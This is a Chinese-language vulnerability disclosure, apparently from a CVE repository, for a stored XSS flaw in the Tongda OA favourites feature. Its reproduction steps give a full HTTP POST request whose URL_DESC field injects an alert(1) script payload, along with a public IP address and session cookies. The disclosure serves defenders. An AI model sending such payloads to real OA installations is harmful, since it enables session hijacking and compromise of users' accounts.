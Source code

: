 # TONGDA OFFICE Anywhere 10.20.200417-store xss

## 漏洞描述

通达OA 控制面板 页面收藏夹处存在存储型xss漏洞

## 复现步骤

### 步骤1

提交poc

```
POST /general/person_info/fav/add.php HTTP/1.1
Host: 127.0.0.1:88
Content-Length: 87
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://211.138.191.187:88
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://211.138.191.187:88/general/person_info/fav/index.php?IS_MAIN=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SID_1=9cdfdedc; SID_4002=fd08b4a7; USER_NAME_COOKIE=%C0%EE%D3%C2; OA_USER_ID=3795; PHPSESSID=r4pki3jd1etr9bpbfd7o6uivo5; SID_3795=b8a99e8d
Connection: close

URL_NO=1&URL_DESC=cyberlab"]%3balert(1)//&URL=http%3A%2F%2Ftest.com&button=%CC%ED%BC%D3
```



### 步骤2

访问主页面，漏洞触发:

![tongda_xss](https://github.com/jqz41401/jqzCVE/blob/master/img/tongda_xss.png)